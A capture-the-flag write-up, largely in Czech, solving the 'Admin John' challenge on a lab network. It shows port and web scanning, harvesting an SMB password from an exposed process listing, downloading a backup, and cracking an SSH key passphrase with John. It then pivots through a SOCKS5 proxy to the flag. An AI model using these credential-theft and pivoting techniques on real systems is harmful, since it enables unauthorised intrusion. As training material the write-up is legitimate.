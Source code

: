 # Admin John (5)

## Zadání

Hi, TCC-CSIRT analyst,

please check if any inappropriate services are running on the workstation `john.admins.cypherfix.tcc`. We know that this workstation belongs to an administrator who likes to experiment on his own machine.

See you in the next incident!

## Nápovědy (Hints)

## Řešení

Začneme skenováním portů

`nmap john.admins.cypherfix.tcc`

```text
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Na webové stránce <http://john.admins.cypherfix.tcc/> se vypíše jen text `Hello world in PHP.`.

Zkusíme najít další skryté PHP stránky.

`ffuf -w /usr/share/dirb/wordlists/common.txt -u http://john.admins.cypherfix.tcc/FUZZ.php`

```text
.htpasswd               [Status: 403, Size: 290, Words: 20, Lines: 10, Duration: 23ms]
                        [Status: 403, Size: 290, Words: 20, Lines: 10, Duration: 2038ms]
.htaccess               [Status: 403, Size: 290, Words: 20, Lines: 10, Duration: 2274ms]
.hta                    [Status: 403, Size: 290, Words: 20, Lines: 10, Duration: 2274ms]
environment             [Status: 200, Size: 3179, Words: 1095, Lines: 31, Duration: 19ms]
index                   [Status: 200, Size: 28, Words: 4, Lines: 1, Duration: 17ms]
```

Na stránce <http://john.admins.cypherfix.tcc/environment.php> se zobrazí spuštěné procesy a další informace.

```text
...
root 64 0.0 0.0 3976 2416 ? S Oct14 0:00 \_ cron -f
root 52576 0.0 0.0 5868 2636 ? S 07:11 0:00 | \_ CRON -f
root 52577 0.0 0.0 2576 948 ? Ss 07:11 0:00 | \_ /bin/sh -c /bin/ps faxu > /backup/ps.txt
root 52578 0.0 0.0 8100 3984 ? R 07:11 0:00 | \_ /bin/ps faxu
root 65 0.0 0.1 15432 9232 ? S Oct14 0:07 \_ sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
john@tc+ 66 0.0 0.0 2464 884 ? S Oct14 0:00 \_ sshpass -p xxxxxxxxxxxxxxxxxxxx ssh -o StrictHostKeyChecking=no -N -D 0.0.0.0:23000 backuper@10.99.24.100
john@tc+ 67 0.1 0.1 15640 12136 pts/0 Ss+ Oct14 1:38 \_ ssh -o StrictHostKeyChecking=no -N -D 0.0.0.0:23000 backuper@10.99.24.100
```

Obsah stránky zřejmě obnovuje `/bin/sh -c /bin/ps faxu > /backup/ps.txt`.

Z řádky `sshpass -p xxxxxxxxxxxxxxxxxxxx ssh -o StrictHostKeyChecking=no -N -D 0.0.0.0:23000 backuper@10.99.24.100` je zřejmé, že na portu 23000 běží SOCKS5 proxy a tuneluje provoz na PC 10.99.24.100. Heslo pro uživatele backuper je ale bohužel skryté.

Po periodickém obnovování stránky se objeví další spuštěné procesy.

```text
root 64 0.0 0.0 3976 2416 ? S Oct14 0:00 \_ cron -f
root 53807 0.0 0.0 5868 2468 ? S 07:20 0:00 | \_ CRON -f
root 53809 0.0 0.0 2576 920 ? Ss 07:20 0:00 | \_ /bin/sh -c read -t 2.0; /bin/bash /opt/client/backup.sh
root 53811 0.0 0.0 3924 2876 ? S 07:20 0:00 | \_ /bin/bash /opt/client/backup.sh
root 53817 0.0 0.0 34308 4800 ? R 07:20 0:00 | \_ smbclient -U backuper%Bprn5ibLF4KNS4GR5dt4 //10.99.24.100/backup -c put /backup/backup-1728976801.tgz backup-home.tgz
root 53818 0.0 0.0 8100 4068 ? R 07:20 0:00 | \_ ps faxu
root 65 0.0 0.1 15432 9232 ? S Oct14 0:07 \_ sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
john@tc+ 66 0.0 0.0 2464 884 ? S Oct14 0:00 \_ sshpass -p xxxxxxxxxxxxxxxxxxxx ssh -o StrictHostKeyChecking=no -N -D 0.0.0.0:23000 backuper@10.99.24.100
john@tc+ 67 0.2 0.1 15640 12136 pts/0 Ss+ Oct14 1:45 \_ ssh -o StrictHostKeyChecking=no -N -D 0.0.0.0:23000 backuper@10.99.24.100
```

Tady už je heslo `Bprn5ibLF4KNS4GR5dt4` pro uživatele `backuper` zobrazené.

Provedeme skenování portů 10.99.24.100.

`nmap 10.99.24.100`

```text
PORT    STATE SERVICE
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

Porty 139 a 445 značí, že na PC běží samba sdílení.

Zobrazíme si obsah sdílené složky

`smbclient -U backuper%Bprn5ibLF4KNS4GR5dt4 //10.99.24.100/backup -c dir`

```text
  .                                   D        0  Mon Oct 14 13:10:37 2024
  ..                                  D        0  Mon Oct 14 13:10:34 2024
  backup-home.tgz                     A  5830741  Tue Oct 15 03:20:01 2024
```

Stáhneme soubor se zálohou

`smbclient -U backuper%Bprn5ibLF4KNS4GR5dt4 //10.99.24.100/backup -c "get backup-home.tgz"`

Zde je stažený archiv [backup-home.tgz](backup-home.tgz).

V záloze je také privátní klíč `.ssh/id_rsa`, ale je chráněný heslem

```text
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,F777BAF040CA045AC209801D46DCA63B
```

V souboru `.bash_history` jsou zajímavé tyto řádky

```text
ssh -i ~/.ssh/id_rsa root@esx1.tcc.local
Enterprise1512
ssh-keygen -p -f ~/.ssh/id_rsa
```

Heslo `Enterprise1512` ale pro `id_rsa` nefunguje.

Vygenerujeme si hash z `id_rsa` pro program john.

`ssh2john id_rsa > id_rsa.hash`

Zkusíme použít slovník `rockyou.txt`.

`john --wordlist=rockyou.txt id_rsa.hash`

Bohužel tam heslo není.

Zkusíme vyjít z textu `Enterprise1512` a projít všechny možné kombinace čísel.

`john --mask=Enterprise?d?d?d?d id_rsa.hash`

Heslo `Enterprise2215` bylo nalezeno.

SSH připojení privátním klíčem nefunguje ani na `john.admins.cypherfix.tcc` ani `10.99.24.100`.

V souboru ze zálohy `.ssh/authorized_keys` je vidět, že spojení je povolené jen z `10.99.24.100`.

`from="10.99.24.100",command="cat /home/john@tcc.local/flag.txt" ssh-rsa AAAAB...`

Port 23000 `john.admins.cypherfix.tcc` je tunelovaný protokolem SOCKS5 do 10.99.24.100, takže použijeme připojení SSH prostřednictvím proxy.

`ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy john.admins.cypherfix.tcc:23000 %h %p' -i id_rsa -v john@tcc.local@10.99.24.101`

Navázané spojení vypíše hledaný FLAG a ukončí spojení.

## Flag

`FLAG{sIej-5d9a-aIbh-v4qH}`
